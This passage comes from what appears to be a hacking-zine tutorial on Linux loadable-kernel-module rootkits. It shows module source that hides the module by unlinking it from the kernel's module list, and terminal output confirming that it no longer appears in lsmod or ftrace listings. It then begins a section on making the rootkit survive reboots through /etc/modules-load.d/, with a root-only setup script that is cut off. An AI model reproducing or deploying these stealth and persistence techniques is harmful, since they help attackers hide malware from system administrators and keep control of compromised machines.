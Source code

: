   static int __init tmpout_init(void) {
      printk(KERN_INFO "LKM carregadoo!\n");
      mtz();
      list_del(&THIS_MODULE->list);
      return 0;
  }

  static void __exit tmpout_exit(void) {
      printk(KERN_INFO "LKM removido!!\n");
  }

  module_init(tmpout_init);
  module_exit(tmpout_exit);

  MODULE_LICENSE("GPL");
  MODULE_AUTHOR("et bilu");
  MODULE_DESCRIPTION("brazilian phonk estragou o phonk.");
  root@infect:~/hidden_func#
╚════════════════════════════════════════════════════════════════════════════╝

In the example above, "mtz" is a static function that will not be exported and
therefore will not appear in the list of functions available for tracing,
since it will be prevented from being registered as a tracepoint.

╔════════════════════════════════════════════════════════════════════════════╗
  root@infect:~/hidden_func# insmod lkm.ko
  root@infect:~/hidden_func# lsmod|grep lkm
  root@infect:~/hidden_func# cat /sys/kernel/tracing/available_filter_functions|grep lkm
  root@infect:~/hidden_func# cat /sys/kernel/tracing/available_filter_functions|grep mtz
  root@infect:~/hidden_func#
  root@infect:~/hidden_func#
  root@infect:~/hidden_func# cat /proc/kallsyms|grep lkm
  ffffffffc0b69010 T tmpout_init  [lkm]
  root@infect:~/hidden_func# cat /proc/kallsyms|grep mtz
  ffffffff911f8300 T _RNvXsa_NtCs3AkgXgqgK6r_4core3fmtzNtB5_5Debug3fmt
  ffffffff911f8300 T _RNvXsb_NtCs3AkgXgqgK6r_4core3fmtzNtB5_7Display3fmt
  ffffffff9253527c r __ksymtab__RNvXsa_NtCs3AkgXgqgK6r_4core3fmtzNtB5_5Debug3fmt
  ffffffff9253533c r __ksymtab__RNvXsb_NtCs3AkgXgqgK6r_4core3fmtzNtB5_7Display3fmt
  root@infect:~/hidden_func#
╚════════════════════════════════════════════════════════════════════════════╝

And that's it, hidden function!

--[ 7 ]----------------[ Persistence with LKM Rootkit even after reboot ]-----

I will show a good persistence method using "/etc/modules-load.d/".

╔════════════════════════════════════════════════════════════════════════════╗
  #!/bin/bash

  if [ "$(id -u)" -ne 0 ]; then
      echo "This script must be run as root."
      exit 1
  fi

  read -p "Enter the full path to the *.ko: " ROOTKIT_PATH
